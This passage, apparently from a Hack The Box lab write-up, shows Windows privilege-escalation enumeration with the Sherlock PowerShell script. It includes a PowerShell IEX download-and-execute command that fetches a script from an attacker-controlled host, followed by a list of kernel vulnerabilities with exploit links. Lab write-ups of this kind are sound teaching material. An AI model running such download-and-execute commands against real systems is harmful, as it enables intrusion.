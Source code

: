 If I want to run Watson, I think I could get it to work by downloading it and compiling it to match one of the .NET versions on the box, but I wasn’t able to get it working quickly. Instead, because this box is so old, I went to Watson’s predecessor, [Sherlock](https://github.com/rasta-mouse/Sherlock). I showed both Sherlock and Watson in the writeup of [Bounty](https://0xdf.gitlab.io/2018/10/27/htb-bounty.html#enumeration) 2.5 years ago.

Sherlock is a PowerShell script. I’ll download a copy, and see that it defines a bunch of functions, but doesn’t call any. I’ll add a line at the end to call `Find-AllVulns`.

```
┌──(kali㉿kali)-[/usr/…/server/data/module_source/privesc]
└─$ cat Sherlock.ps1 | grep -i function 
function Get-FileVersionInfo ($FilePath) {
function Get-InstalledSoftware($SoftwareName) {
function Get-Architecture {
function New-ExploitTable {
function Set-ExploitTable ($MSBulletin, $VulnStatus) {
function Get-Results {
function Find-AllVulns {
function Find-MS10015 {
function Find-MS10092 {
function Find-MS13053 {
function Find-MS13081 {
function Find-MS14058 {
function Find-MS15051 {
function Find-MS15078 {
function Find-MS16016 {
function Find-MS16032 {
function Find-CVE20177199 {
function Find-MS16135 {

# now just add a function at the end of script sherlock.ps1
printf "\nFind-AllVulns" >> Sherlock.ps1
# here we used printf as we need to give a new line using \n before function name
```

Then I’ll use a Python HTTP server to host a copy, and execute it the same way I got a shell:

```
PS C:\> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Sherlock.ps1')
                                                    
Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015              
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092                       
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable
                                                    
Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053                     
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems
                                                    
Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081                   
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems
                                                    
Title      : TrackPopupMenu Win32k Null Pointer Dereference
```